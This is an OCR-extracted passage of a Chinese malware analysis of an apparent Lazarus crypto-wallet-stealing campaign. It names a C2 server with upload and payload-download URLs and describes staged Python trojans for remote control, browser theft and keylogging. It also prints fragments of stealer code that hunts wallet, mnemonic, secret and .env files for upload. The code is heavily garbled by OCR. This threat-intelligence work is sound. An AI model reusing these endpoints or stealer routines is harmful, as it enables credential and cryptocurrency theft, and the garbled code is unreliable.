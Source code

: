 3.恶意代码初始化，C2（http://185.235.241.208:1224）、浏览器密币钱包扩展程序ID。  

![](https://cdn-mineru.openxlab.org.cn/extract/f9607365-0087-44d6-97f8-79bafed2dde3/1352b5de412d2a947b0e5d72fb3f79c437c1b29b70eccea7ed77a75c9233ce17.jpg)  

1.根据默认的密币钱包扩展程序数据存储路径，窃取数据回传，URL：http://185.235.241.208:1224/upload  

![](https://cdn-mineru.openxlab.org.cn/extract/f9607365-0087-44d6-97f8-79bafed2dde3/108795bf24cef07d3e68324efacc914a6661e90c13605b0b503bdfefcb15c19c.jpg)  

5．此外，木马进行python环境下载、python client木马下载。  

http://185.235.241.208:1224/pdown $->$ python安装包;  
http://185.235.241.208:1224/client/99 -> python木马。  

![](https://cdn-mineru.openxlab.org.cn/extract/f9607365-0087-44d6-97f8-79bafed2dde3/bd8bae8296521364abd503d09d582842b18261f9159a1e62384d6253a847cec6.jpg)  

6. http://185.235.241.208:1224/client/99 $->$ main99.py，下载的python载荷使用lambda函数进行多层嵌套的倒序、base64解码、解压缩处理得到最终python代码实体。  

![](https://cdn-mineru.openxlab.org.cn/extract/f9607365-0087-44d6-97f8-79bafed2dde3/6c1d80f1bc32c459cfd38ffab7b788678b24cb186ee37ab2bb2f92aeddca0659.jpg)  
00006D09 core_sub_140007810:58 (140007909)  

7.main99.py实际为下载器木马，下载三个后阶python木马分别实现远控、窃密、按键及窗口监控等恶意功能。  

![](https://cdn-mineru.openxlab.org.cn/extract/f9607365-0087-44d6-97f8-79bafed2dde3/4ab5d1405b3caea46b3dc5cae612b88d54fce481ec48cb3a1d60cae5f44cfb04.jpg)  

8．简要总结三个下载的python木马功能如下。  

<html><body><table><tr><td>URL</td><td>落地路径</td><td>描述</td></tr><tr><td>http://185.235.241.208:1224/payl oad/99/root</td><td>%userprofile%/.n2/pay</td><td>主机侦察、文件窃密、用户监 控、shell，配置anydesk无 人值守</td></tr><tr><td>http://185.235.241.208:1224/bro w/99/r0ot</td><td>%userprofile%/.n2/bow</td><td>针对主流的浏览器窃密</td></tr><tr><td>http://185.235.241.208:1224/mcli p/99/root</td><td>%userprofile%/.n2/mlip</td><td>窗口监控、剪切板监控、按键 记录</td></tr></table></body></html>  

%userprofile%/.n2/pay主机侦察代码如下，攻击者侦察重点为加密货币相关。  

# Lazarus窃密币动作活跃，大量资产仍存活  

# #过滤文件扩展名  

ex_files =['.exe' . d11" .ms1',.cimg','.1so alDK XaPK .aar aab" '.dex','.clas! #过滤文件目录  

ex_dirs ['vendor 'Pods','node_modules git .next externalNativeBuild' 'sdk','.idea' cocos2d" pat_envs =['.env 'config.js', secret 'metamask' 'wallet private 'mnemonic ,'password','account', ex1_files = ['.php','.svg','.htm' -hpp .cpp' . XmI -png' .Swit ccb .tsx','.h','.java' ex2_files =['tsconfig.json','tailwind.config.js','svelte.config.js 'next.config.js','babel.config.js',  

def1d（rd，pd）：#遍历文件  

def fmt_s(s): if s<1024:return str(s)+'B elif s<1048576:return'{:.0f}KB'.format(s/1024.) elif s<1073741824:return'(:.1f)MB'.format(s/1048576.) else:return'(:.1f)GB'.format(s/1073741824.)  

defups（sn）：#文件上传lef auto_up():fpatten('\*private\*')fpatten('\*mnemonic\*fpatten('\*secret\*')fpatten('\*wallet\*1)fenv()  
